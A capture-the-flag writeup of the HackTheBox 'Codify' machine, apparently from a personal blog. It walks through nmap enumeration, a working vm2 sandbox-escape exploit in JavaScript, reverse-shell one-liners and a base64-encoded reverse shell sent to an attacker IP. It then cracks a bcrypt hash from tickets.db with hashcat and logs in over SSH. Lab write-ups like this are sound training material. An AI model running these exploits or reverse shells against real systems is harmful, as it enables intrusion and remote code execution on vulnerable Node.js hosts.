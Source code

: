 ```yaml
---
layout: post
title: HackTheBox Codify Writeup
# subtitle: There's lots to learn!
gh-repo: github.com/thirt33n/thirt33n.github.io
gh-badge: [star, fork, follow]
tags: [htb,writeup,seasonal]
comments: true
---
```


## Codify
![Codify](../assets/img/Codify.png){: .mx-auto.d-block :}


The IP provided is :

```
10.10.11.229 
```

### Enumeration

Running nmap on the machine provides the following results:
```bash
$ sudo nmap -sC -sV 10.10.11.229     
# Nmap 7.92 scan initiated Fri Nov 10 01:25:34 2023 as: nmap -sC -sV -o nmap_results.txt 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 10 01:25:50 2023 -- 1 IP address (1 host up) scanned in 15.89 seconds
```

From the scan we see that port 22 is open for ssh, which we come to later, port 80 and port 3000 both runnning an HTTP service with 3000 being a Nodejs application.


There is also a link for **codify.htb** shown in the scan result, this is added to the **/etc/hosts** file.

Opening the website in a browser shows us that it is an application that allows users to run Nodejs code right on the browser. This may potentially lead to an RCE.

http://codify.htb/about - Tells us that it is running the **vm2** library to run the code on the browser. Checking for any known vulnerabilities in this library we find this
[**vm2 sandbox escape**](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) .



### Exploit
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('cat /etc/passwd');
}
`
console.log(vm.run(code))


```
This enables us to run arbitrary code on the system even though some libraries like "child_processes" is blacklisted by the application. Thereby allowing us to bypass the sandbox environment.

Running
```bash
cat /etc/passwd
```
in the exploit Gives us the following response:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


```

from this we can see that there are 3 users in the system:
root,joshua,svc.

We are currently logged in as svc. (Run the **whoami** command)

Now we need to have a reverse shell to perform privilege escalation and to retrieve the flags.

However at this point, I couldnt get any of the typical reverse shell command to work properly such as these,

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```bash
nc -e /bin/sh 10.0.0.1 1234
```

That's when I ran the **ps aux** command on the code editor page with the exploit that I noticed something,

![ps aux](../assets/img/hack_inside_hack.png) 


```bash
echo
YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d|bash -i
```
This command caught my eye, decoding the base64 encoded text revealed this:

```bash
$ echo YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d
bash -i >& /dev/tcp/10.10.16.26/444 0>&1 
```

I am not sure how this command was being run in this system, perhaps it was run by another player on the box, but this gave me the idea and used the same method by altering the IP address and port to suite my system and sent this command using the exploit:

```bash
$ echo "bash -i >& /dev/tcp/10.10.16.22/8080 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK
```
Make sure to use your IP and preffered port for the above command.

Set up your netcat listener using the above used port for capturing the reverse shell:

```bash
nc -lnvp 8080
```

Final exploit to gain RCE:


```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK | base64 -d | bash -i');
}
`
console.log(vm.run(code))
```

Running this will get you the reverse shell as svc user.

Moving to the  /var/www/contact directory shows us these:


```bash
svc@codify:/var/www/contact$ ls
ls
index.js
package.json
package-lock.json
templates
tickets.db

```

***tickets.db looks interesting and it does contain hashed password for the joshua user.***

![tickets db](../assets/img/codify_inside.png)


```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

This is an example of the BCRYPT hash since it begins with the "$2a" prefix. We use tools like hashcat or john the ripper to crack it.

```ps
hashcat -m 3200 -a 0 hash rockyou.txt
```

![Cracked passwprd](../assets/img/password_crack.png)


The password was cracked and it seems that the password is:

**spongebob1**

We use this to login as joshua and gain the user flag !

```bash
$ ssh joshua@codify.htb -p 22                       
joshua@codify.htb' password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
Last login: Sun Nov 12 07:14:17 2023 from 10.10.16.15'

joshua@codify:~$ cat user.txt
```



